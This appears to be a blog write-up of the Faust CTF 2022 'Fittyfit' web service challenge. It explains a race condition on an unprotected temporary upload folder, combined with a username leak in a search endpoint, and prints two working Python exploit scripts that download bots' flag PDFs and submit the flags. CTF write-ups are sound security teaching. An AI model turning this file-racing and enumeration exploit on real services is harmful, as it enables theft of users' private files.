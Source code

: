 ```yaml
---
layout: post
title:  "Fittyfit - A/D Web Service"
date:   2022-07-10 12:28:05 +0100
categories: writeups
---
```


```
Challenge: Fittyfit
Author: d1l3mm4
Description: Download sensitive files using race conditions and info leaks
CTF: Faust CTF 2022
Category: A/D Web Service
```

Warning: unintended solution here :p <br>

This challenge presents itself as a web service where to generate and exchange "NFTs". <br>
Here we can upload a pdf, set some attributes to tag it, transfer it to other users and download your files. <br>

We focused our attention on the first of these steps. <br>

When you generate a new NFT, there are two steps involved:

- Upload the pdf file
- Add the tags to the file

Between these steps, the file is in the ```data/nft/generator``` folder, waiting for it to be edited and moved to the ```data/nft/<username>/<hash>/``` path.


{% highlight python %}
@app.route('/generate', methods=['GET', 'POST'])
def generate():
    #...
    # UPLOAD
    if step == "upload":      
        # ...
        filename = secure_filename(file.filename)
        # Store file for generator
        path = os.path.join(app.config['NFT_FOLDER'], "generator", filename)
        file.save(path)
        return render_template("generate.html", step="generate", filename=filename)
{% endhighlight %}

{% highlight python %}
@app.route('/generate', methods=['GET', 'POST'])
def generate():
    #...
    # GENERATE
    elif step == "generate":       
        # ...
        # Generate NFT
        path1 = os.path.join(app.config['NFT_FOLDER'], "generator", filename)
        path2 = os.path.join(app.config['NFT_FOLDER'], g.user.name, g.user.hash, filename)   

        succ = nft_transfer(app.config['NFT_FOLDER'], path1, path2, g.user.name, infos)
        if not succ:
            return render_template("generate.html", step="upload")

        flash("You succesfully generated your NFT :)", "green")
        return render_template("generate.html", step="done")
{% endhighlight %}

During this time, the file is accessible by anyone, i.e. there isn't any access control on ```data/nft/generator``` folder, where files are temporarily stored awaiting for further processing. The only thing to know to query a file from there is the actual name of the file. <br>

By looking at the traffic capture related to bot interaction with the service within a tick, we can see that the bot awaits some time between the file upload and the nft generation, _maybe_ we're lucky enough to try and read the file while it is still "processing". <br>

![wireshark_screen](https://github.com/pwnthenope/pwnthenope.github.io/blob/main/static/post_images/fittyfit_wireshark.png?raw=true)

We've also noticed that the filename of the flag has the same UUID as the username of the bot who created it. <br>

Knowing this, we can use another endpoint ( ```/search``` ), tied to the transfer functionality, needed to implement the auto-complete front-end function on the "target username" field in the form. <br>

By making the following request to the endpoint: ```/search?s=MrFlag_```, we obtain a list of the bot's accounts. <br>
With this, we have all the info needed to try to get the desired file. <br>

Now, all we need to do is writing the exploit and hope for the best (in a busy network this approach is not very reliable). <br>
We'll start by creating a new user and signing in. After that, we'll poll the ```search``` endpoint, looking for new bots registered. <br>

When we find one, we start to poll the endpoint ```nft?file=generator/FlagNFT_{bot-UUID}.pdf```, hoping to find a file to download. <br>
If so, then we can read its content using a python library like ```PyPDF2``` and with that we're ready to submit the flag. <br>

For this exploit we used two scripts, a multi-threaded one to dump pdf files to the local folder, and another one which makes polling on the folder to find new pdf files, read the contents of each one, submit flags and move them to another folder. <br> 
We managed to get ~300 attack points on this service during the CTF, running the script for 4 hours. <br>

We provide here only the exploit stub of the first script and the complete second script. <br>
The first one:

{% highlight python %}
from random_user_agent.user_agent import UserAgent
from requests import get, put, post, Session, ReadTimeout, ConnectionError
import re
import random
import string
import time


def exploit(ip):
    # In our multi-threaded setup, an exploit stub has to return flags, but in this case
    # it always returns an empty list, because flags are read from files and submitted by
    # the other script
    BASE_URL	= 'http://[fd66:666:{}::2]:5001/'
    url = BASE_URL.format(ip)

    ua = UserAgent()
    user_agent = ua.get_random_user_agent()

    test_username = rand()
    
    with Session() as s:
        s.headers = {'User-Agent': user_agent}
        
        try:
            # Register
            burp0_url = url + "register"
            burp0_data = {"name": test_username}
            req = post(burp0_url, headers={'User-Agent': user_agent}, data=burp0_data, timeout=4)

            # Check error
            if "FAUST proxy" in req.text:
                return []
            expr_res = re.search(r'<b>([A-Za-z0-9]+)</b>', req.text, re.M)
            if expr_res:
                hash_user = expr_res.group()
            else:
                return []
            
            hash_user = hash_user.replace("<b>","")
            hash_user = hash_user.replace("</b>","")

            # Get password
            burp0_url = "https://mega-totp.faustctf.net:443/get_password"
            burp0_cookies = {"secrets": "\"[{\\\"s\\\": \\\""+hash_user+"\\\"\\054 \\\"n\\\": \\\"fittyfit\\\"}\""}
            burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0", "Accept": "*/*", "Accept-Language": "en-GB,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://mega-totp.faustctf.net/", "Content-Type": "application/x-www-form-urlencoded", "Origin": "https://mega-totp.faustctf.net", "Connection": "close", "Sec-Fetch-Dest": "empty", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Site": "same-origin", "DNT": "1", "Sec-GPC": "1", "Pragma": "no-cache", "Cache-Control": "no-cache"}
            burp0_data = {"s": hash_user}
            req = post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data, timeout=4)
            password = req.text

            # Login
            burp0_url = url + "login"
            burp0_data = {"name": test_username, "pass": password}
            req = s.post(burp0_url, data=burp0_data, timeout=4)

            # Get initial UUIDs list
            burp0_url = url + "search?s=MrFlag_"
            req = s.get(burp0_url)
            prev = set(req.json().keys())
            while True:
                time.sleep(0.1)
                try:
                    burp0_url = url + "search?s=MrFlag_"                    
                    req = s.get(burp0_url, timeout=4)
                    cur = set(req.json().keys())
                    
                    if len(cur-prev) > 0:
                        attempts = list(cur-prev)
                        target_users = [usr for usr in attempts if "MrFlag" in usr]
                        prev = cur
                    
                    if len(target_users) == 0:
                        continue

                    # Try at most 10 times for each target user
                    target_users = set(target_users)
                    i = 0
                    while i < 10:
                        ok_users = set()
                        for target_user in target_users:
                            filename = target_user.replace("MrFlag","FlagNFT")
                            filename = filename + ".pdf"
                            burp0_url = url+"nft?file=generator/"+filename
                            req = s.get(burp0_url, timeout=4)
                            
                            if(req.status_code == 200):
                                ok_users.add(target_user)
                                with open(filename, "wb") as f:
                                    f.write(req.content)

                        target_users = target_users - ok_users
                        if len(target_users) == 0:
                            break
                        i += 1

                    time.sleep(0.25)
                except (ReadTimeout, ConnectionError):
                    break
        except:
            return []

    return []


def rand_string(min = 8, max = 12):
    letters = string.ascii_lowercase
    return ''.join(random.choice(letters) for _ in range(random.randint(min, max)))

{% endhighlight %}

The second:

{% highlight python %}
import os
import PyPDF2
import time
from pwn import *


SUBMIT_FLAG = 'submission.faustctf.net'


def submit(flags):
    if type(flags) is not list:
        flags = [x for x in flags]

    flags = '\n'.join(flags)
    r = remote(SUBMIT_FLAG, 666)
    r.send(flags.encode())
    r.close()
    data = r.recvrepeat(timeout=2)
    print(data)
    return


if __name__ == "__main__":
    while True:
        time.sleep(5)
        files = os.listdir()
        files = [file for file in files if ".pdf" in file]
        flags = list()
        for file in files:
            try:
                reader = PyPDF2.PdfFileReader(file)
                flag = reader.getPage(0).extractText()
                flags.append(flag)
            except:
                print("ops")
        print(flags)
        if len(flags) == 0:
            continue
        while True:
            try:
                submit(flags)
                break
            except ValueError:
                print("Retry submit after 1 second")
                time.sleep(1)
        for file in files:
            os.system(f"mv {file} pdfs/")
        
{% endhighlight %}

Bonus pdf NFT with flag: [here](https://github.com/pwnthenope/pwnthenope.github.io/blob/main/static/post_images/FlagNFT_0c2db212-27fb-44a0-bc03-5c58135e8ed7.pdf)


